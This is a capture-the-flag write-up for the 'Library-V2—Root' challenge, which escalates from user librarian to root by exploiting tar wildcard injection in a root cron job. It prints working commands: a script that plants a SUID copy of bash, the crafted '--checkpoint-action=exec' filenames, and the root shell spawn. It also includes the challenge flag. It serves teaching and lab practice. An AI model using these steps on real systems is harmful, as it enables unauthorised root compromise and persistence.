

# 👑 Library-V2—Root (Boot-to-Root)

---

## Flag
```
hack10{cr0n_t4r-w1ldc4rd_1nj3ct10n_ftw}
```

---

## Challenge Overview

This challenge is a continuation of **Library-V2—User**.



### Objective:
- Escalate privileges from user `librarian`
- Obtain root access
- Retrieve the root flag

---

## Initial Context

From the previous stage, access was already obtained as:

```
Username: librarian
```

The goal now is to identify a privilege escalation path to root.

---

## Step 1: Investigate Scheduled Tasks

A common privilege escalation technique is to inspect system cron jobs for scripts executed automatically as root.

Check cron configuration:

```bash
cat /etc/crontab
```

### Key Finding:

```bash
* * * * * root /root/backup.sh
```

### Observation:
A script named `/root/backup.sh` is executed every minute as `root`.

This immediately suggests a possible privilege escalation opportunity.

---

## Step 2: Identify a Writable Directory

Although `/root/backup.sh` itself is not readable, a writable directory was found:

```bash
/home/librarian/books
```

This suggests that the backup script may be processing files from this location.

---

## Vulnerability — Tar Wildcard Injection

If a root-owned backup script uses a command such as:

```bash
tar *
```

inside a writable directory, specially crafted filenames can be interpreted as command-line options rather than normal files.

This can allow arbitrary command execution as root.

---

## Step 3: Prepare Payload

First, create a script that copies `/bin/bash` and sets the SUID bit:

```bash
echo 'cp /bin/bash /tmp/rootbash && chmod u+s /tmp/rootbash' > shell.sh
chmod +x shell.sh
```

Then create malicious filenames that `tar` will interpret as options:

```bash
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh shell.sh'
```

---

## Step 4: Wait for Cron Execution

Since the cron job runs every minute, wait for `/root/backup.sh` to execute.

If the script uses `tar *`, the malicious filenames are processed as `tar` options, which causes:

```bash
sh shell.sh
```

to be executed as root.

---

## Step 5: Gain Root Access

After the cron job runs, verify the SUID shell:

```bash
ls -lah /tmp/rootbash
```

Then spawn a root shell:

```bash
/tmp/rootbash -p
```

Confirm privilege level:

```bash
whoami
```

### Output:
```bash
root
```

---

## Step 6: Retrieve Root Flag

Read the root flag:

```bash
cat /root/root.txt
```

The flag is Base64 encoded.

### Decode:

```bash
echo "encoded_string" | base64 -d
```

---

## Final Result

```
hack10{cr0n_t4r-w1ldc4rd_1nj3ct10n_ftw}
```

---

## 🧩 Key Takeaways

- Cron jobs running as root are high-value privilege escalation targets
- Writable directories used by privileged scripts are dangerous
- `tar` wildcard injection can lead to arbitrary command execution
- SUID binaries can be abused to maintain privileged access
- Scheduled task abuse is a common real-world escalation path

---

## 🛠️ Tools Used

- Linux commands (`cat`, `touch`, `chmod`, `cp`, `whoami`)
- Cron enumeration
- Tar wildcard injection technique
- Base64 decoding / CyberChef

---

## 🧠 Skills Developed

- Linux privilege escalation
- Cron job analysis
- Tar wildcard injection
- Abuse of insecure root automation
- Post-exploitation persistence techniques

---

⭐ *This challenge demonstrates how insecure automation and unsafe wildcard handling can lead to full root compromise.*
